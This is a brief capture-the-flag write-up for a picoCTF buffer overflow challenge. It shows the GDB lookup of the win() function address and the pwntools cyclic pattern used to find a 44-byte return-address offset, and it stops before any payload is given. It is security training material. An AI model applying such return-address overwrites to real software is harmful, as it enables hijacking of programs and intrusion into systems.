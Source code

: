 # URL
https://play.picoctf.org/practice/challenge/258?category=6&page=3

# Challenge:
Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here. And connect with it using nc saturn.picoctf.net 64721

# Work:

* Running GDB and looking through the functions

<img width="1152" height="700" alt="image" src="https://github.com/user-attachments/assets/0285e48f-0909-4fce-8419-eca6bf7ed511" />

* The address of the win() function is 0x080491f6

<img width="1671" height="73" alt="image" src="https://github.com/user-attachments/assets/d1c996ec-d89e-4213-82c8-91902ab5ab08" />

* Use cyclic from pwn to generate a string (i.e, when we don't know the buffer length)

```
>>> print(cyclic(200))
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
>>> 
```

<img width="1690" height="501" alt="image" src="https://github.com/user-attachments/assets/a3a4d37d-46f6-4b09-a186-52fdcc903f3d" />

* The offset is bits
```
>>> print(cyclic_find(0x6161616c))
44
```


